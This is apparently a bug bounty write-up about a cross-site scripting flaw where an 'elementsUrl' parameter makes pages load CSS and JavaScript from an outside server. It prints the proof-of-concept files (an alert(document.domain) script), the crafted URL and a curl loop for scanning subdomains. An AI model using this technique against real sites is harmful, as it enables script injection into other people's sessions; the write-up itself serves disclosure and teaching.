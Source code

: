 # Get Parameter Misconfiguration Leads to P1 XSS

السلام عليكم ورحمة الله,

الحمدُ للهِ حمدًا كثيرًا طيِّبًا مُبارَكًا فيه مُباركًا عليِه كما يُحِبُّ ربُّنا ويرْضى.

Hello world,

All praise is to Allah, praise in abundance, good and blessed.

i get this endpoint by using [waymore](https://github.com/xnl-h4ck3r/waymore) + [katana](https://github.com/projectdiscovery/katana), in results i see endpoint that contain this interested parameter `elementsUrl` i try in it my burp collaborator then i see that i received DNS & HTTP requests to this endpoints

**/styles.css**  
**/deployment/env/redacted.config.js**

![](https://miro.medium.com/v2/resize:fit:700/1*RNW2tkyLuQM3vzDt1yeazg.jpeg)

the requests commes just when i browse the url from my browser that’s mean there is no ssrf then i try to read source of the page and i see some interested js codes

![](https://miro.medium.com/v2/resize:fit:700/1*iDO8kwNsoa1KZOcIujnzMA.png)

![](https://miro.medium.com/v2/resize:fit:700/1*CeO-w1Ql22L32J8BY3KnEQ.png)

i see that the page import js and css from external endpoint

i go to my server and i created two endpoints

**styles.css** :

body::before {  
  content: "HELLO FROM MCHKLT";  
  color: red;  
  font-size: 24px;  
  font-weight: bold;  
  display: block;  
  text-align: center;  
  margin-top: 20px;  
}

**/deployment/env/redacted.config.js** :

document.title = "HELLO FROM MCHKLT";  
alert(document.domain);

after adding my website to the vulnerable endpoint was like

`[http://target/v2/sso.php?env=redacted&elementsUrl=https://mchklt.server/](http://target/v2/sso.php?env=redacted&elementsUrl=https%3A%2F%2Fmchklt.server%2F)`

the site gonna import css and js from malicious endpoint that created by me

then boom

![](https://miro.medium.com/v2/resize:fit:700/1*lWi4bZugxq5PoXza8-eXJQ.jpeg)

after this i do my best part

i take the endpoint then i do a simple bash script that gonna try the endpoint in all domains & subdomains of my target

for i in $(cat subs);do curl $i | grep “elementsUrl”; done

after doing that i get +10 subdomains of my target that was infected and after some analysing and researching i found that the bug was in a service by target.com

by using google dorks i found +130 subdomain that uses target.com service and it’s vulnerable .

i report it but

![](https://miro.medium.com/v2/resize:fit:700/1*VMnprFarhV-1inRp-pWC6A.png)

![](https://miro.medium.com/v2/resize:fit:276/1*rOaViUPq-t3JZ6XMpzJlEA.png)

anyway alhamdulillah

Thanks for reading,

if you can connect me in [LinkedIn](https://www.linkedin.com/in/mchklt/) i wanna more friends that interested in Bug Hunt & Cyber Sec .
